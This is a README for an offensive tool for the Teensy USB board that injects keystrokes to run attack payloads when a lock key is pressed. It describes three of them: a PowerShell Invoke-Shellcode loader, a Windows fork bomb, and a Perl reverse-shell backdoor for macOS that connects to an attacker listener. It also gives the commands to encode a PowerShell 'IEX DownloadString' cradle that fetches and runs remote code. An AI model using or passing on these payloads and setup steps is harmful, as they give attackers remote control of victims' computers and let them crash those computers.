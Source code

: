 # TeensyMultiPayload
TeensyMultiPayload is a program for the [Teensy] (https://www.pjrc.com/teensy/) that allows you to execute multiple payloads for multiple operating systems in seconds with different key presses.


The examples left in the code are a PowerShell command ready to be modified for Invoke-Shellcode, a fork bomb to crash windows, and a perl backdoor for OSX.

The program is entirely configurable for your own needs.

All you need to do to run the payloads after flashing is, plug in the Teensy, wait for the Teensy's LED to blink, then press CAPS LOCK, SCROLL LOCK, or NUM LOCK on the keyboard then each matching payload will execute.

To set up the perl backdoor replace 10.0.0.17:999 with your server IP address and port running a listener of some sort. Possibly netcat or Metasploit.

The fork bomb is all set and should work on all windows computers XP and up.
To generate the Invoke-Shellcode encoded command for PowerShell, modify and execute the below commands on Linux or Cygwin then replace READ_README in TeensyMultiPayload with the output.

For more information on Invoke-Shellcode see: https://github.com/PowerShellMafia/PowerSploit

``scriptblock="IEX (New-Object Net.WebClient).DownloadString(‘Change_To_Your_InvokeShellcode_URL’);"``

``encode="`echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0`"``

``echo $encode``
